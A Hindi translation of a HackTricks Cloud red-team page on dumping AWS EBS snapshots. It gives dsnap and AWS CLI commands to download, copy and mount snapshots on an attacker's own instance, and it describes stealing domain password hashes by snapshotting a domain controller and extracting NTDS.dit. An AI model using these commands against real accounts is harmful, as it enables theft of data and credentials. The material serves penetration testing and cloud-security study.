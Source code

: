 # AWS - EBS स्नैपशॉट डंप

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## स्नैपशॉट को स्थानीय रूप से जांचें
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**ध्यान दें** कि `dsnap` आपको सार्वजनिक स्नैपशॉट डाउनलोड करने की अनुमति नहीं देगा। इसे दूर करने के लिए, आप स्नैपशॉट की एक प्रति अपने व्यक्तिगत खाते में बना सकते हैं, और उसे डाउनलोड कर सकते हैं:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध देखें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप Pacu का उपयोग करके इसे कर सकते हैं उपयोग करके मॉड्यूल [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## AWS में स्नैपशॉट की जाँच करना

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**इसे एक EC2 वीएम में माउंट करें जिसे आपके नियंत्रण में है** (यह बैकअप की प्रति क्षेत्र में होना चाहिए):

चरण 1: अपने पसंदीदा आकार और प्रकार के लिए एक नया वॉल्यूम बनाने के लिए EC2 -&gt; वॉल्यूम पर जाएं।

इस कार्रवाई को करने के लिए निम्नलिखित कमांडों का पालन करें:

* EC2 इंस्टेंस को जोड़ने के लिए एक EBS वॉल्यूम बनाएं।
* सुनिश्चित करें कि EBS वॉल्यूम और इंस्टेंस एक ही क्षेत्र में हैं।

चरण 2: बनाए गए वॉल्यूम पर राइट-क्लिक करके "वॉल्यूम जोड़ें" विकल्प का चयन करें।

चरण 3: इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन करें।

इस कार्रवाई को करने के लिए निम्नलिखित कमांड का उपयोग करें:

* EBS वॉल्यूम को जोड़ें।

चरण 4: EC2 इंस्टेंस में लॉगिन करें और कमांड `lsblk` का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।

चरण 5: कमांड `sudo file -s /dev/xvdf` का उपयोग करके जांचें कि वॉल्यूम में कोई डेटा है या नहीं।

यदि उपरोक्त कमांड का आउटपुट "/dev/xvdf: data" दिखाता है, तो इसका मतलब है कि वॉल्यूम खाली है।

चरण 6: वॉल्यूम को ext4 फ़ाइल सिस्टम में स्वरूपित करें कमांड `sudo mkfs -t ext4 /dev/xvdf` का उपयोग करके। वैकल्पिक रूप से, आप xfs स्वरूप का उपयोग करके भी कर सकते हैं कमांड `sudo mkfs -t xfs /dev/xvdf` का उपयोग करके। कृपया ध्यान दें कि आपको ext4 या xfs में से केवल एक का उपयोग करना चाहिए।

चरण 7: नए ext4 वॉल्यूम को माउंट करने के लिए अपनी पसंदीदा नाम की डायरेक्टरी बनाएं। उदाहरण के लिए, आप "newvolume" नाम का उपयोग कर सकते हैं।

इस कार्रवाई को करने के लिए, निम्नलिखित कमांड का उपयोग करें: `sudo mkdir /newvolume`.

चरण 8: वॉल्यूम को "newvolume" डायरेक्टरी में माउंट करें कमांड `sudo mount /dev/xvdf /newvolume/` का उपयोग करके।

चरण 9: "newvolume" डायरेक्टरी में डायरेक्टरी बदलें और वॉल्यूम माउंट को सत्यापित करने के लिए डिस्क स्पेस की जांच करें।

इस कार्रवाई को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

* `/newvolume` में डायरेक्टरी बदलें।
* कमांड `df -h .` का उपयोग करके डिस्क स्पेस की जांच करें। इस कमांड का आउटपुट "newvolume" डायरेक्टरी में शेष स्थान दिखाना चाहिए।

आप इसे Pacu का उपयोग करके मॉड्यूल `ebs__explore_snapshots` का उपयोग करके कर सकते हैं।

## AWS में स्नैपशॉट की जांच (cli का उपयोग करके)
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## शैडो कॉपी

किसी भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वे सभी डोमेन उपयोगकर्ताओं के हैश चुरा सकते हैं एक **डोमेन कंट्रोलर का स्नैपशॉट बनाकर** उसे अपने नियंत्रण में एक इंस्टेंस माउंट करके और **Impacket's secretsdump परियोजना के उपयोग के लिए NTDS.dit और SYSTEM** रजिस्ट्री हाइव फ़ाइल को निर्यात करके।

आप इस उत्पादन को स्वचालित करने के लिए इस उत्पादन का उपयोग कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप एक स्नैपशॉट बनाने के बाद पिछले तकनीकों में से किसी का उपयोग कर सकते हैं।

## संदर्भ

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
